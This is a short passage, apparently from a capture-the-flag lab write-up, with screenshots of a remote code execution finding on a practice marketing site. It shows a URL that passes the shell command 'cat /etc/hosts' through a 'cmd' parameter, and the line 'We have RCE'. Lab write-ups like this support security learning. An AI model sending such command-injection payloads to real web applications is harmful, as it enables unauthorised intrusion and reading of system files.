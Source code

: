 	![12rce1-1](imgs/12rce1-1.png)

- `view-source:http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c?cmd=cat /etc/hosts`
	- We have RCE
	![12rce1-2](imgs/12rce1-2.png)
